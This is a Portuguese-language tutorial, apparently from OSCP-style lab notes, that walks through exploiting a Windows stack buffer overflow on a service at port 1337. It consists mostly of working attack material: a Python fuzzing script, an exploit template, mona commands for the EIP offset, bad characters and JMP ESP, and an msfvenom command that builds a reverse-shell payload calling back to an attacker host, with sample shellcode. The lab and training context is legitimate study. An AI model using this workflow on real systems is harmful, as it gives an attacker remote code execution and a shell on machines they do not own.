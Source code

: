 Execute o Immunity Debugger como administrador e carregue o executável que será explorado.

Configurar o caminho de saída do mona:
```powershell
!mona config -set workingfolder c:\mona\%p
```

Script para descobrir com quantos caracteres a aplicação quebra (**fuzzing.py**):
```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

Script para explorar a aplicação (**exploit.py**):
```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Criar um padrão (pattern) para ser enviado na aplicação:
```bash
# 600 é a quantidade de caractéres
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```
O padrão gerado deve ser utilizado na variável payload do exploit.py.

Identificar no mona qual o Offset de EIP:
```powershell
# 600 é a quantidade de caractéres gerado pelo pattern_create
!mona findmsp -distance 600
# Ex.: EIP contains normal pattern : ... (offset XXXX)
```
Para validar se é possível controlar o EIP defina o valor de retn do exploit.py para o offset encontrado e deixe o valor de payload vazio.

Gere uma bytearray com o mona:
```
!mona bytearray -b "\x00"
```

Gere os mesmos bytearray na máquina atacante:
```bash
for ((x=1; x<=255; x++)); do printf "\\\x%02x" $x; done > bytearray.txt
```
Utilize o bytearray gerado para identificar os Bad Chars da aplicação, substitua o payload do exploit.py pelo bytearray.

Para comparar os dois bytearrays gerados, utilize o mona com o endereço de ESP:
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

Ao identificar os bad chars, gere um novo bytearray com o mona, mas indicando quais são os bad chars:
```powershell
`!mona bytearray -b "\x00\x01\x02"`
```

Atualize também o bytearray que será enviado para remover os bad chars encontrados e atualize o payload de exploit.py.

Após fazer a remoção de todos os bad chars, vamos identificar os JMP ESP que podem ser gravados, lembrando de passar todos os badchars na consulta:
```powershell
!mona jmp -r esp -cpb "\x00\x01\x02"
```

Atualize a variavel retn do exploit.py para o endereço do JMP ESP identificado, lembrando que o mesmo deve ser escrito ao contrário, ex.: Se o endereço identificado é \\x01\\x02\\x03\\x04, deve ser escrito no payload: \\x04\\x03\\x02\\x01.

Gere um shell code pra pegarmos a shell reversa com o msfvenom:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02" -f c
```

Copie o shellcode gerado na variável payload do script exploit.py:
```python
# Exemplo
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"  
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"  
...  
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"  
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

Liberar mais espaço em memória para o payload tenha espaço para ser executado, inclua `"\x90" * 16` em padding no script exploit.py:
```python
# Exemplo
padding = "\x90" * 16
```

